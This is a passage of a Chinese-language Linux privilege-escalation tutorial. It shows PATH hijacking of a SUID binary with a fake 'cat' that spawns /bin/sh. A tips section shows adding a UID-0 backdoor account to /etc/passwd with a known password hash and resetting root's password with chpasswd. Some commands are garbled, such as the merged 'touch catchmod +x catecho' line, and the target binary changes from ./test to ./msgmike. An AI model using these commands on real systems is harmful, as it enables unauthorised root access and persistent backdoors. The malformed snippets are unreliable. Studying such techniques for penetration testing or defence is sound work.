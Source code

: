 - 利用file命令查看文件是否可执行

假设找到test文件，可以直接执行`./test`

- 执行该文件

在执行的时候可能会报错，根据报错来查看调用系统命令（假设这里某个文件是在cat命令时报错），那么就可以利用低权限用户目录下可被root权限用户调用的脚本提权。

- 设置bash的$path环境变量

```bash
export PATH = '.'
```

- 调用cat命令

当调用cat命令的时候，cat会从以上目录来寻找，如果我们添加.到$PATH环境变量，则会先从当前目录来寻找cat指令。

- 新建cat，添加执行权限

```shell
touch catchmod +x catecho "/bin/sh" > cat
```

这样当我们再次运行`./msgmike`（执行有sid的文件）的时候，就会触发当前目录下的cat（/bin/sh），从而提权。

- 完整步骤

```SHELL
# 第一步
./test （回车后发现错误）

# 第二步
export PATH="."

# 第三步（命令复原）
export PATH="/usr/local/bia:/usr/bin:/usr/local/games:/usr/games"
```



## 0x05 一些技巧

#### 1. 非交互式shell如何增加账户

正常shell中改密码或加账户时，会弹出让我们输入密码，这时非交互式shell是无法操作的。

此时可以直接：

```shell
echo "[/etc/passwd形式的账户密码]" >> /etc/passwd
echo "xx:fi8RL.Us0cfSs:0:0:pwned:/root:/bin/bash" >> /etc/passwd
```

其中`fi8RL.Us0cfSs`为`123456`的哈希，第一个0代表用户root权限，第二个0代表组root权限。

或者

```shell
echo [testuser]:[password] | chpasswd
echo root:123456 | chpasswd
```
